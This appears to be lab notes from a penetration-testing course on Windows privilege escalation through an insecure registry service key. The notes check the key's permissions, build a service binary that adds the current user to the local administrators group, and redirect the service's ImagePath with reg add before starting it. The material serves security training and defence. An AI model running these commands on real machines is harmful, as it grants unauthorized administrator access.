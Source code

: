  **Detection**

Open PowerShell prompt and type: 

```batch - windows
powershell -ep bypass
```

```powershell - windows
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl  
```

Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

```
.\winPEASx64.exe servicesinfo
```

**Exploitation**

Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Copy the generated file x.exe, to the Windows VM.

[[4._File Transfers]]

Place x.exe in ‘C:\Temp’.  

Open command prompt at type: 

```batch - kali
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f  
```

In the command prompt type: 

```batch - kali
sc start regsvc
```

```batch - kali
sc start regsvc
```

[[___.Misc Commands#Restart host]]

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```batch - windows
net localgroup administrators
```

